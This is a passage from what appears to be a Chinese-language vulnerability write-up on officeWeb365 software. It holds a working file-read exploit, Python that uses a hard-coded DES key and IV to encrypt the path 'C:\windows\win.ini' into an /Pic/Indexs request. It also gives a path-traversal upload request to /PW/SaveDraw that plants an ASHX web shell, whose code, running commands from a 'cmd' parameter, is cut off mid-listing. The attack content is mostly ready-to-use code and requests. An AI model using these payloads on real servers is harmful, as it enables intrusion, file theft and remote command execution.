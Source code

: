 ```python
plaintext = "C:\windows\win.ini"

# 密钥和初始向量
Keys = bytes([102, 16, 93, 156, 78, 4, 218, 32])
Iv = bytes([55, 103, 246, 79, 36, 99, 167, 3])

# 加密
ciphertext = encrypt_des(plaintext, Keys, Iv)
print("加密后的密文:", ciphertext)

# 解密
decrypted_text = decrypt_des('U4MXvYDVuVrybiwjpvXs7R2FZA8nRywM', Keys, Iv)
print("解密后的明文:", decrypted_text)
```
`/Pic/Indexs?imgs=U4MXvYDVuVrybiwjpvXs7R2FZA8nRywMaa`
![](https://img-blog.csdnimg.cn/direct/74062f5b7e054a748bda919426453060.png)

参考：
[officeWeb365 Indexs接口存在任意文件读取漏洞 附POC软件](https://mp.weixin.qq.com/s/Sgi24orgxyfrUpsbI95kAw)

### /PW/SaveDraw 任意文件上传

![](https://img-blog.csdnimg.cn/direct/510b28a141474df9ac50e80689a1017a.png)

代码也很简单易懂，直接使用`+`拼接了文件路径，导致可以目录穿越写文件
```
POST /PW/SaveDraw?path=../../Content/img&idx=test.ashx HTTP/1.1
Host: 192.168.111.138:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1474

data:image/png;base64,<% @ webhandler language="C#" class="AverageHandler" %>

using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class AverageHandler : IHttpHandler
{
  /* .Net requires this to be implemented */
  public bool IsReusable
  {
    get { return true; }
  }

  /* main executing code */
  public void ProcessRequest(HttpContext ctx)
  {
    Uri url = new Uri(HttpContext.Current.Request.Url.Scheme + "://" +   HttpContext.Current.Request.Url.Authority + HttpContext.Current.Request.RawUrl);
    string command = HttpUtility.ParseQueryString(url.Query).Get("cmd");

    ctx.Response.Write("<form method='GET'>Command: <input name='cmd' value='"+command+"'><input type='submit' value='Run'></form>");
    ctx.Response.Write("<hr>");
```